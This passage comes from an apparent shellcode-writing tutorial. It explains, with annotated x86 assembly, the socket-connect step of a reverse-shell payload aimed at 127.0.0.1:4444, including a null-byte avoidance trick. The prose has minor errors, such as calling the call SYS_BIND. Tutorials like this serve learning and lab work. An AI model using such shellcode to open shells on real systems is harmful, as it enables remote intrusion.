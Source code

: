 ```
```

## Connecting with our socket

Now that we have our socket, let's go ahead and give it the property to connect to another address.

In my case I wanted to set the inet_addr (IP) to 127.0.0.1, and sin_port (port) to 4444.

In C language that would look like this:
- inet_addr('127.0.0.1')
- sin_port(4444)


This can be achieved with the syscall "socketcalll(SYS_BIND,(ADDRESS-SYS_SOCKET-SOCKFD,ADDRESS-SYS_SOCKET-STRUCT,len(16),4444))".

In assembly that looks like this:


```
; [+] Setting up socketcall() for SYS_CONNECT
	; int socketcall(int call, unsigned long *args)
	; int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
	; EAX = socketcall
	; EBX = SYS_CONNECT[3]
	; ECX = (int sockfd, const struct sockaddr *addr, socklen_t addrlen) : 
	; Legend: If all set - 1(1,1,1). Else if not set 0(0,0,0)
	xor    eax,eax		;
	mov    al,0x66		; setting syscall as socketcall()					:	[vim /usr/include/i386-linux-gnu/asm/unistd_32.h]
	xor    ebx,ebx		; 
	mov    bl,0x3		; setting function as SYS_CONNECT					:	[socketcall --> REF1]
	xor    edx,edx		; 
	mov    edx, 0x04030382	; 127.0.0.1 flipped and converted is 0x100007f. But this will give us errors because of NULL bytes 
        sub    edx, 0x03030303	; so we put a larger number and subtract it down to 0x100007f		: 	[connect --> REF5]
	push   edx		; we then push it to stack which avoids the NULL break errors		:	[connect --> REF5]
	push   word 0x5c11	; 4444 flipped and hex encoded is 0x5c11 - pushed to stack		:	[connect --> REF5]
	push   word 0x2		; setting sa_family member of sockaddr to AF_INET (0x02)		:	[connect --> REF5]
	mov    edx,esp		; setting EDX to pointer of sockaddr struct				: 	[connect --> REF5]
	push   0x10		; pushing stocketlen_t addrlen onto stack - 0x10 == 16 bytes - 0(0,0,1)	:	[connect --> REF5]
	push   edx		; pushing address of sockaddr/struct to memory - 0(0,1,1)		:	[connect --> REF5]
	push   esi		; pushing sockfd onto stack - 0(1,1,1)					: 	[connect --> REF5]
	mov    ecx,esp		; setting ECX to address of parameters (located on stack) - 1(1,1,1)	:	[connect --> REF5]
	int    0x80		; calling socketcalll(SYS_CONNECT,(sockfd,(AF_INET(0x2),127.0.0.1,4444),addrlen(16 bytes))
```
